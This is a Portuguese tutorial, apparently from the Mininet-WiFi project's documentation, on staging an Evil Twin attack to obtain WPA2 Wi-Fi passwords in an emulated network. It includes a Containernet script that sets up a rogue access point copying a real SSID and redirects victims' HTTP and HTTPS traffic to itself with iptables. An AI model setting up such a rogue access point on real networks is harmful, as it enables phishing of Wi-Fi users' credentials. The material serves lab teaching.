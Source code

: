 ************
Evil Twin Attack
************


Hackeando a senha de Wi-Fi WPA2 usando Evil Twin Attack | DNSMASQ e Hostapd
-------------

.. image:: https://github.com/ramonfontes/sphinx_rtd_theme/blob/master/docs/imgs/evil-twin.png?raw=true

.. Note::
  **Neste documento você irá compreender como realizar o ataque denominado de  Evil Twin Attack**
  
  **Requisitos:** 
  
  - Containernet - https://github.com/ramonfontes/containernet
  - Hostapd

  **A VM disponível em https://github.com/intrig-unicamp/mininet-wifi possui todos os recursos necessários para reproduzir este documento.**

Antes de tudo você precisa identificar a topologia de rede que será gerada através do código abaixo:

.. code:: python

 #!/usr/bin/python

 '''@author: Ramon Fontes
    @email: ramon.fontes@imd.ufrn.br'''

 from containernet.net import Containernet
 from containernet.node import DockerSta
 from mininet.log import setLogLevel, info
 from containernet.cli import CLI
 from containernet.term import makeTerm


 def topology():
     "Create a network."
     net = Containernet()

     info("*** Creating nodes\n")
     sta1 = net.addStation('sta1', ip='0/0')
     sta2 = net.addStation('sta2')
     ap1 = net.addAccessPoint('ap1', ssid="simplewifi", mode="g", channel="1",
                              failMode="standalone", datapath='user')
     ap2 = net.addStation('ap2', cls=DockerSta, dimage="ramonfontes/rogue-ap", cpu_shares=20)

     info("*** Configuring wifi nodes\n")
     net.configureWifiNodes()

     info("*** Associating Stations\n")
     net.addLink(sta2, ap1)

     info("*** Starting network\n")
     net.build()
     ap1.start([])

     ap2.setMasterMode(intf='ap2-wlan0', ssid='simplewifi', channel='1', mode='g')
     #ap2.cmd('pkill -f \"ap2-wlan0.apconf\"')
     ap2.cmd('ifconfig ap2-wlan0 up 192.168.190.1 netmask 255.255.255.0')

     #ap2.cmd('iptables --flush')
     ap2.cmd('iptables --table nat --append POSTROUTING --out-interface ap2-eth1 -j MASQUERADE')
     ap2.cmd('iptables --append FORWARD --in-interface ap2-wlan0 -j ACCEPT')
     ap2.cmd('iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 192.168.190.1:80')
     ap2.cmd('iptables -t nat -A PREROUTING -p tcp --dport 443 -j DNAT --to-destination 192.168.190.1:80')
     ap2.cmd('iptables -t nat -A POSTROUTING -j MASQUERADE')
     ap2.cmd('echo 1 > /proc/sys/net/ipv4/ip_forward')

     sta1.cmd('ifconfig sta1-wlan0 192.168.190.2/24')
     sta1.cmd('route add default gw 192.168.190.1')

     info("*** Running CLI\n")
     CLI(net)

     info("*** Stopping network\n")
     net.stop()


 if __name__ == '__main__':
     setLogLevel('info')
     topology()
```

Considerando que o código acima tenha sido salvo em um arquivo com nome `evil-twin-attack.py', execute-o conforme abaixo:

.. code:: console

    sudo python evil-twin-attack.py
    
De acordo com a topologia acima, `sta1` deverá estar conectado ao ponto de acesso `ap1`. Voce pode confirmar esta afirmação utilizando o comando abaixo:

.. code:: console

    sta1 iw dev sta1-wlan0 link
    
Na topologia do código acima, `sta1` seria a vítima e `sta2` o atacante. Além disso, o ponto de acesso `ap1` seria o ponto de acesso real e o ataque seria feito através do ponto de acesso `ap2`.
